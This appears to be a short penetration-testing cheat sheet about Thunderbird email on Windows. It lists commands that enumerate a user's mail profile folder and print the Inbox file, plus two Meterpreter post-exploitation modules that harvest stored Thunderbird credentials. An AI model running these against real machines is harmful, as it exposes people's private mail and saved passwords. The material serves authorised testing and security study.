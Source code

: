 # Emails

## 01 - Thunderbird

### 1.1 - Living off the Land

#### 1.1.1 - Enumerate the directory

> [!INFO] What does this acronym stands for?
> `<fqdn>` stands for **Fully Qualified Domain Name**.


```
C:\> dir C:\Users\%username%\AppData\Roaming\Thunderbird\Profiles\<name>.default-release\Mail\<fqdn>\

dir %appdata%\Thunderbird\Profiles\<name>.default-release\Mail\<fqdn>\

dir %userprofile%\AppData\Roaming\Thunderbird\Profiles\<name>.default-release\Mail\<fqdn>\
```

#### 1.1.2 - Read the Inbox

```
C:\> type C:\Users\%username%\AppData\Roaming\Thunderbird\Profiles\<name>.default-release\Mail\<fqdn>\Inbox

type %appdata%\Thunderbird\Profiles\<name>.default-release\Mail\<fqdn>\Inbox

type %userprofile%\AppData\Roaming\Thunderbird\Profiles\<name>.default-release\Mail\<fqdn>\Inbox
```

### 1.2 - Metasploit

```
meterpreter > run post/multi/gather/thunderbird_creds

meterpreter > run post/windows/gather/credentials/thunderbird
```